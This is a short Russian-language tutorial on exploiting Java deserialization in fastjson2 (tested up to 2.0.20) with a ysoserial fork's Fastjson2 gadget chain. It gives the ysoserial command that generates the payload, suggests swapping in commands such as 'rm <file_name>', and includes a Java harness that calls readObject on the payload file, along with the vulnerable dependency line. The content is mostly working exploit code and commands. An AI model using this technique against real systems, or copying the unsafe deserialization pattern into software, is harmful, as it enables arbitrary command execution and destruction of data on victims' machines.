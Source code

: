 **Ysoserial Fastjson2**

Для того, чтобы ysoserial заработал с библиотекой fastjson2, необходимо использовать следующий fork:
https://github.com/Y4er/ysoserial/tree/main

Генерируем payload следующей командой:

```
java -jar ysoserial.jar Fastjson2 "mkdir created_dir"> mkdir_v2.bin
```

Данный запрос создат папку create_dir. В качестве аналогов, можно использовать "rm <file_name>" или "firefox" и так далее.

Теперь пишем код, который сериализует объект из файла:

```
package org.example;

import java.io.ByteArrayInputStream;
import java.io.File;
import java.io.ObjectInputStream;
import java.nio.file.Files;

public class Main {
    public static void main(String[] args)  {
        try{
            byte[] data = Files.readAllBytes(new File(args[0]).toPath());
            ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(data));
        objectInputStream.readObject();
        objectInputStream.close();
    }catch (Exception e){
        e.printStackTrace();
        }
    }
}
```
Нужно не забыть импортировать библиотеку fastjson2 (протестированно для версии <= 20):

```
implementation("com.alibaba.fastjson2:fastjson2:2.0.20")
```

В процессе выполнения, может появится следующая ошибка, но при этом команда исполнится:

![Search Result](/images/image_b.jpg)
